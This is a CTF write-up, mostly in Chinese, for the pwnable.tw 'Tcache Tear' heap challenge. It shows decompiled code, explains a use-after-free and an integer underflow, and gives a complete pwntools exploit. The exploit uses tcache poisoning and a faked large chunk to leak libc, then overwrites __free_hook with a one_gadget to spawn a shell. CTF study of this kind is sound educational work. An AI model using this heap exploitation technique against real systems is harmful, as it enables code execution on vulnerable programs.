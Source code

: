 # pwnable.tw-Tcache Tear

## checksec

```shell
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

## IDA

**add**

```c
int add()
{
  unsigned __int64 v0; // rax
  int size; // [rsp+8h] [rbp-8h]

  printf("Size:");
  v0 = choice();
  size = v0;
  if ( v0 <= 0xFF )
  {
    ptr = malloc(v0);
    printf("Data:");
    my_read((__int64)ptr, size - 16);
    LODWORD(v0) = puts("Done !");
  }
  return v0;
}
```

**main**

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  __int64 v3; // rax
  unsigned int v4; // [rsp+Ch] [rbp-4h]

  Init(a1, a2, a3);
  printf("Name:");
  my_read(&name, 32LL);
  v4 = 0;
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      v3 = choice();
      if ( v3 != 2 )
        break;
      if ( v4 <= 7 )
      {
        free(ptr);
        ++v4;
      }
    }
    if ( v3 > 2 )
    {
      if ( v3 == 3 )
      {
        show();
      }
      else
      {
        if ( v3 == 4 )
          exit(0);
LABEL_14:
        puts("Invalid choice");
      }
    }
    else
    {
      if ( v3 != 1 )
        goto LABEL_14;
      add();
    }
  }
}
```

**show**

```c
ssize_t show()
{
  printf("Name :");
  return write(1, &name, 0x20uLL);
}
```

漏洞点有两个地方:

- free后指针未清零，对本题来说可以造成UAF
- 在add函数中，若size<16，则会整数溢出，可写入任意长度数据

got表不可写，同时也没有输出函数，只有将名字进行输出。首先，想办法进行leak，通过uaf，我们可以对任意已知地址的内存进行读写，所以我们将name所在的内存伪造成一个large chunk，将其free，再show就可以leak libc，之后就是简单了。

为了成功将large chunk进行free，我们需要构造三个chunk，看下面的这段代码：

```c
    nextsize = chunksize(nextchunk);
    if (__builtin_expect (chunksize_nomask (nextchunk) <= 2 * SIZE_SZ, 0)
	|| __builtin_expect (nextsize >= av->system_mem, 0))
      malloc_printerr ("free(): invalid next size (normal)");
	···
    if (nextchunk != av->top) {
      /* get and clear inuse bit */
      nextinuse = inuse_bit_at_offset(nextchunk, nextsize);
```

该段代码检查free的chunk的nextchunk大小是否满足要求，还检查了nextchunk的inuse位，这一位在nextchunk的nextchunk中，所以我们要伪造三个chunk。

首先，先将两个nextchunk构造出来，在`name+0x500`的地方伪造通过任意地址读写伪造两个`0x20`的chunk，之后在将name的chunk取出free掉。

## exp

```python
from pwn import *
# from LibcSearcher import LibcSearcher
from struct import pack
import sys

leak = lambda name,addr: log.success('{0} addr ---> {1}'.format(name, hex(addr)))
context.arch="amd64"
context.terminal = ['tmux', 'splitw', '-h']

binary='./tcache_tear'
#gdb.attach(sh)
if 'g' in sys.argv[1]:
	context.log_level="DEBUG"
if 'l' in sys.argv[1] and 'r' not in sys.argv[1]:
	log.info('Test in local...')
	sh=process(binary)
if 'r' in sys.argv[1]:
	log.info('Attacking...')
	sh=remote('chall.pwnable.tw', 10207)

elf = ELF(binary,checksec=False)
libc = ELF('./libc.so',checksec=False)

def add(size,data):
	sh.recvuntil('choice :')
	sh.sendline('1')
	sh.recvuntil('Size:')
	sh.send(str(size))
	sh.recvuntil('Data:')
	sh.send(data)

def free():
	sh.recvuntil('choice :')
	sh.sendline('2')

name = 0x602060
one = [0x4f2c5, 0x4f322,0x10a38c]
sh.sendline(p64(0)+p64(0x501))

add(0x50,'a'*8+'\n') # 0x100
free()
free()

add(0x50,p64(name+0x500))
add(0x50,'aaa')
add(0x50,p64(0)+p64(0x21)+p64(0)*3+p64(0x21)+p64(0)*2)

add(0x60,'aaaa')
free()
free()
add(0x60,p64(name+0x10))
add(0x60,'aaa')
add(0x60,'a')
free()
# gdb.attach(sh)
sh.recvuntil('choice :')
sh.sendline('3')
malloc_hook = u64(sh.recvuntil('\x7f')[-6:].ljust(8,b'\x00')) - 96 - 0x10 
libc.address = malloc_hook - libc.sym['__malloc_hook']
one_gadget = libc.address + one[1]
leak('libc base',libc.address)

add(0x70,'aaaa')
free()
free()
add(0x70,p64(libc.sym['__free_hook']))
add(0x70,'aaa')
add(0x70,p64(one_gadget))
free()

sh.interactive()
```

